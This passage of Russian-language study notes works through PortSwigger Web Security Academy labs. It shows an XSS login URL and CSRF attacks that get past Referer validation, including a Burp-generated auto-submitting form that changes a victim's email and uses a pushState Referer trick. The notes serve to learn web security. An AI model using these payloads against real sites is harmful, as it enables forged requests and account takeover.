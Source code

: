 На уязвимом сайте делаем XSS в GET запросе с закодированным в URL скриптом выше.
```http
https://cms-0ae4007f048e205982bcbfed00bc0073.web-security-academy.net/login?username=%3Cscript%3E{here code upper}%3C/script%3E&password=q
```

---
# Валидация заголовка Refere

## CSRF, когда проверка Referer зависит от наличия заголовка
https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present
1. Если убрать заголовок Referer, то возможно, что уязвимость проэксплуатируется.
2. Repeater -> Engagement tools -> Generate CSRF PoC
3. Добавляет тег `<meta name="referrer" content="no-referrer">`

---

## CSRF с нарушенной проверкой Referer
https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken
Допустим есть следующий параметр:
```
Referer: https://www.originSite.com/my-account?id=wiener
```
пробуем изменить его, получаем всё ещё рабочий Referer:
```
Referer: https://google.com?https://www.originSite.com/my-account?id=wiener
```
1. Repeater -> Engagement tools -> Generate CSRF PoC
2. В форме меняем аргументы pushState, добавляя `?`+`originRegerer`
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a28001a0421cd37808adad500f500b1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="qwe&#64;qwe&#46;qwe" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?https://www.originSite.com/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3. Header на explit server-е должен содержать заголовок:
```
Referrer-Policy: unsafe-url
```
	чтобы браузер позволил передать get параметр в функции pushState.
